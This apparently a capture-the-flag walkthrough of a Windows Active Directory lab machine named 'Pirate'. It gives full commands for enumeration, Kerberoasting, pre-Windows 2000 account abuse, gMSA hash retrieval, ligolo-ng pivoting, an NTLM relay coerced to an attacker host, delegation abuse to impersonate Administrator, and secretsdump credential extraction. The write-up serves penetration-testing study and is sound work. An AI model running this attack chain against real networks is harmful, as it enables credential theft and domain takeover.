## Machine Information

- **Machine Name:** Pirate
- **Machine IP:** 10.129.244.95
- **Machine Diff:**  Hard
- **Machine OS:** Windows

---
## Reconnaissance - Information Gathering

Initially, we start by reconnaissance phase where we gather information on the target via passive and active interactions, and the first step in reconnaissance phase is to determine the number of ports and services running on the target which we can access from outside of the network, this is called *Port Scanning*. 

> **What are Ports?**
> In computer networking, port is a communication endpoint at a software level within an operating system, it is a logical construct that identifies a specific service.

**Commands:**

```bash
sudo zeromap "$IP" --tun
```



We did an initial port scan using [ZeroMap](https://github.com/Z3R0space/ZeroMap), which is fastest port scanner with stealth capabilities made for red teamers. We found a lot of ports open, but some of the ports that confirm that this can be a Windows box, especially an Active Directory box is due to the following ports: *53, 88, 135, 139, 445, 636*.

**Commands:**
```bash
sudo nmap -sVC -p[ports] -A "$IP" -oN scan/nmapTCP.txt
```


### Output
```bash
Host is up (0.094s latency).  
PORT      STATE SERVICE       VERSION  
53/tcp    open  domain        Simple DNS Plus  
80/tcp    open  http          Microsoft IIS httpd 10.0  
|_http-server-header: Microsoft-IIS/10.0  
| http-methods:   
|_  Potentially risky methods: TRACE  
|_http-title: IIS Windows Server  
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-05-18 21:35:51Z)  
135/tcp   open  msrpc         Microsoft Windows RPC  
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn  
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: pirate.htb0., Site: Default-First-Site-Name)  
| ssl-cert: Subject: commonName=DC01.pirate.htb  
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb  
| Not valid before: 2026-05-18T21:22:02  
|_Not valid after:  2027-05-18T21:22:02  
|_ssl-date: 2026-05-18T21:37:28+00:00; +7h00m00s from scanner time.  
445/tcp   open  microsoft-ds?  
464/tcp   open  kpasswd5?  
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: pirate.htb0., Site: Default-First-Site-Name)  
| ssl-cert: Subject: commonName=DC01.pirate.htb  
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb  
| Not valid before: 2026-05-18T21:22:02  
|_Not valid after:  2027-05-18T21:22:02  
|_ssl-date: 2026-05-18T21:37:29+00:00; +6h59m59s from scanner time.  
2179/tcp  open  vmrdp?  
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
|_http-title: Not Found  
|_http-server-header: Microsoft-HTTPAPI/2.0  
9389/tcp  open  mc-nmf        .NET Message Framing  
49667/tcp open  msrpc         Microsoft Windows RPC  
49689/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0  
49690/tcp open  msrpc         Microsoft Windows RPC  
49693/tcp open  msrpc         Microsoft Windows RPC  
49694/tcp open  msrpc         Microsoft Windows RPC  
49944/tcp open  msrpc         Microsoft Windows RPC  
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port  
Device type: general purpose  
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)  
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10  
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)  
No exact OS matches for host (test conditions non-ideal).  
Network Distance: 2 hops  
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows  
  
Host script results:  
| smb2-time:   
|   date: 2026-05-18T21:36:51  
|_  start_date: N/A  
| smb2-security-mode:   
|   3:1:1:   
|_    Message signing enabled and required  
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s  
  
TRACEROUTE (using port 445/tcp)  
HOP RTT       ADDRESS  
1   109.10 ms 10.10.16.1  
2   109.35 ms 10.129.244.95
```

After figuring out open ports and services, I did a deep service scan (-sVC) using nmap on open ports with an aggressive option (-A), which gave us more detail about the service running on those ports. This is important as it helps you to identify service versions and their configurations.
### SMB Enumeration

**Server Message Block (SMB)** is a communication protocol used to share files, printers, serial ports and miscellaneous communications between nodes on a network. SMB serves as the basis for Microsoft's Distributed File System implementation. As per our situation, we are already given credentials which demonstrate credential leak scenario, and we can use those credentials to enumerate SMB for the following things:
- Enumerate shares for read/write access.
- Enumerate users

**Credentials:** pentest / p3nt3st2025!&

**Commands:**
```bash
nxc smb "$IP" -u 'pentest' -p 'p3nt3st2025!&' -M spider_plus
```



In NetExec (`nxc`), `-M spider_plus` is an execution flag that launches the *spider_plus* module, a post-exploitation tool used to recursively crawl and inventory all readable SMB shares on a target machine. Instead of just checking share permissions, spider_plus drills into every folder to see exactly what files exist. It is heavily used by cybersecurity professionals and penetration testers to find exposed sensitive data, such as backup keys, cleartext configuration files, or credentials saved on network drives.

In our output of spider_plus, we can see that the user `pentest` has `READ` permission over the following shares: **IPC$, NETLOGON, SYSVOL**.. Unfortunately, none of these are unique or useful permissions, they are default so we will not waste time there now, I did manually enumerated all three shares, but there is nothing useful there.
### MS-RPC Enumeration

Next, we will enumerate **MS-RPC (Port 135)**, which is used by Microsoft's Remote Procedure Call (RPC) endpoint mapper, and it acts as a dynamic directory service for Windows networks. When a computer needs to communicate with a remote service (like Active Directory, Exchange, or remote management tools), it first queries port 135 to find out which dynamic port that specific service is running on.

**Commands:**
```bash
rpcclient -U 'pentest' "$IP"
rpcclient $> enumdomusers
rpcclient $> enumdomgroups
rpcclient $> srvinfo
```





In the above images, we can see that we manually enumerated users, groups and server information from RPC protocol using the following commands:
- `enumdomusers` - Enumerate domain users
- `enumdomgroups` - Enumerate domain groups
- `srvinfo` - Server Information

I saved all the usernames in a file so we can brute-force usernames when needed, and group information shows nothing interesting.

---
## Initial Access: Getting a shell
### LDAP Enumeration

**LDAP (Lightweight Directory Access Protocol)** is an industry-standard network protocol used to organize, manage, and access centralized directory information over an IP network. Operating on standard network port 389 (or encrypted port 636), its primary job is to serve as a fast, searchable phone book for user accounts, computer identities, and security groups. It is most famously used as the underlying communication language for **Microsoft Active Directory (AD)**.
#### AS-REP Roasting & Kerberoasting

An **AS-REP (Authentication Service Response)** is a specific cryptographic message format used in the **Kerberos authentication protocol**. When a user logs into a Windows AD, their computer sends an initial authentication request called an AS-REQ (Authentication Service Request) to the Domain Controller. If the request is valid, the Domain Controller replies with an **AS-REP.**

Inside this AS-REP message is a specific piece of data called a **Ticket Granting Ticket (TGT)** session key, which is encrypted using the user's password hash.

**AS-REP ROASTING:** 
AS-REP Roasting is a post-exploitation cyberattack technique where a hacker requests authentication for a user account and steals that encrypted AS-REP message to crack the user's plaintext password offline. This attack exploits a specific, weak account configuration in Active Directory: **"Do not require Kerberos Preauthentication.**

By default, AD requires Kerberos Preauthentication. This means that when a user sends an AS-REQ, they must first encrypt the current timestamp using their password hash to prove who they are before the DC sends back an AS-REP.

**Commands:**
```bash
nxc ldap "$IP" -u "$USER" -p "$PASS" --asreproast asrep.hash
```



We tried AS-REP roasting using the credentials given to us, but there is no user with "Do not require kerberos preauth", so we did not got any AS-REP as output.

**Kerberoasting:**
Kerberoasting is a post-exploitation cyberattack technique where an attacker abuses the Kerberos authentication protocol to extract the password hashes of high-privilege **Active Directory (AD) service accounts**, which they then attempt to crack offline. Like AS-REP Roasting, it targets weak cryptographic configurations in AD, but it specifically targets accounts mapped to a **Service Principal Name (SPN)**

**Commands:**
```bash
nxc ldap "$IP" -u "$USER" -p "$PASS" --kerberoasting kerberoasting.hash
```



We got 2 user's kerberoasting response, which are **a.white_adm** and **gMSA_ADFC_prod**, while these does not seem useful right now so we will save them for further compromise if needed, and we will move to another technique to find initial access.

**PRE2K:**
Pre-Windows 2000 Compatibility is a legacy Active Directory configuration. When a new computer account is pre-created in Active Directory using this compatibility mode, its default password is not randomly generated. Instead, the password defaults to the account's name in lowercase. Hackers exploits this misconfiguration to gain an initial foothold or laterally move through the domain.

**Commands:**

```bash
nxc ldap "$IP" -u "$USER" -p "$PASS" -M pre2k
export KRB5CCNAME=/home/zero/.nxc/modules/pre2k/ccache/ms01.ccache
nxc ldap "$IP" -u "MS01$" -p "ms01" -d pirate.htb --gmsa -k
```




We were able to capture Kerberos ticket for the following users: **MS01$, and EXCH01\$** by performing PRE2K, and we used MS01\$ kerberos ticket to query GMSA hash. GMSA (Group Managed Service Account) is a specialized Active Directory domain account designed to secure services, tasks, and applications without manual password management. Introduced in Windows Server 2012, gMSAs eliminate the human element of credential management by automating password rotation and eliminating the risk of service account lockouts.

We were able to also capture two NTLM hashes of **gMSA_ADCS_prod$ and gMSA_ADFS_prod\$** 

### WINRM: Shell as gMSA_ADCS

The `gMSA_ADCS_prod$` account is a naming convention for a production Group Managed Service Account dedicated to running Active Directory Certificate Services (ADCS). While it is built specifically to operate federated identity services, it acts as the security identity for enterprise PKI components. It is usually responsible for managing, enrolling, or signing digital certificates across the network.

**Commands:**

```bash
evil-winrm -i "$IP" -u 'gMSA-ADCS-prod$' -H '<NTML HASH>'
```



### Network Pivoting to 192.168.100.0/24
We were able to access the shell of **gMSA-ADCS-prod$** via WINRM, and we saw that it has two network interfaces:
- 192.168.100.0/24
- 10.129.0.0/16

Due to having multiple network, we must try to pivot to the next network and for this we must create a tunnel using ligolo-ng.

**Commands (On attacker machine):**

```bash
sudo ip tuntap add user "$USERNAME" mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert -laddr 0.0.0.0:443
```




These commands are used to set up the infrastructure for ligolo-ng, a high-performance tunneling and pivoting tool. Initially, we create a virtual point-to-point network interface on our machine and grant user permissions to use and manage the interface without needing sudo everytime, and set the device to TUN (Tunnel) mode, which operates on layer 3 of the OSI model.

Next, we modify the state of a network interface and enable it. Finally, we start ligolo-ng server (the proxy) on our machine to listen for incoming connections from compromised targets.

**Commands:**

```bash
(in proxy)> start
sudo ip route add '192.168.100.0/24' dev ligolo
```




We were successfully able to create a tunnel and added **192.168.100.0/24** sub-network to our ligolo interface, so we can communicate to it.
### NTLM Relay to LDAPS -> RBCD

#### NTLM Relay attack explained
NTLM relay can be really scary attacks on an Active Directory environment, especially if the attacker is able to coerce authentication from an unauthenticated context then relay to a service for initial access into the domain. This attack is a type of MITM (man-in-the-middle) attack usually involving some form of authentication coercion, in which an attacker prompts a host to authenticate to a controlled machine, then relays the authentication to a target resource, successfully impersonating the host.

What will be one of the service to perform this attack on? - In my opinion, it would be LDAP, which is basically the core of Active Directory. When we do this, we're able to use the NTLM relay to impersonate a computer account and we can modify a selection of critical LDAP attributes on the account, which ultimately goes to account takeover.

#### WEB01 compromise

To gain delegated access over **WEB01**, we first started **ntlmrelayx** and configured it to relay incoming NTLM authentications to the domain controller over LDAPS. The `--delegate-access` option instructed ntlmrelayx to configure **Resource-Based Contrained Delegation (RBCD)** upon a successful relay, while `--escalate-user 'MS01$'` specified that the attacker-controlled machine account (MS01$) should be granted delegation rights. The `--remove-mic` option was used to bypass NTLM Message Intregrity Code protection where applicable.

With the relay listener in place, I used **Coercer** to trigger an authentication from **WEB01**. Authenticating as the compromised **gMSA_ADCS_prod$** account using its NT hash, Coercer abused a vulnerable RPC interface to force **WEB01** to initiate an outbound NTLM authentication to my Kali host (`10.10.16.165`).

The captured authentication from the **WEB01$** machine account was immediately relayed by ntlmrelayx to **DC01** over **LDAPS**. Since the relay succeeded, ntlmrelayx modified the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the **WEB01** computer object, granting **MS01$** permission to act on behalf of other users to services hosted on WEB01. At this stage, Resource-Based Constrained Delegation was successfully configured, allowing **MS01$** to impersonate arbitrary domain users when requesting service tickets for WEB01.

**Commands:**
```bash
> export IP="10.129.244.95"
> impacket-ntlmrelayx -t "ldaps://$IP" --delegate-access --escalate-user 'MS01$' -smb2support -remove-mic
> coercer coerce -u 'gMSA_ADCS_prod$' --hashes ':[NTHASH]' -d pirate.htb -l '10.10.16.165' -t '192.168.100.2' --always-continue
```




#### Abusing RBCD to Impersonate Administrator
After RBCD was configured, I requested a **Ticket Granting Ticket (TGT)** for the **MS01$** machine account using its known password. The obtained ticket was exported through the `KRB5CCNAME` environment variable so that subsequent Impacket tools would automatically use Kerberos authentication.

Using this TGT, I executed **getST** to perform an **S4U2Self/S4U2Proxy** attack. By specifying the `cifs/WEB01.pirate.htb` SPN and the `-impersonate Administrator` option, Impacket requested a service ticket on behalf of the Administrator account. Finally, I authenticated to **WEB01** using the impersonated Kerberos service ticket and executed **secretsdump** with Kerberos authentication.

**Commands:**
```bash
> impacket-getTGT 'pirate.htb/MS01$:ms01' -dc-ip "$IP"
> export KRB5CCNAME='[ccache_file]'
> impacket-getST 'pirate.htb/MS01$' -spn 'cifs/WEB01.pirate.htb' -impersonate 'Administrator' -dc-ip "$IP" -k -no-pass
> impacket-secretsdump -k -no-pass -target-ip '192.168.100.2' 'WEB01.pirate.htb'
```


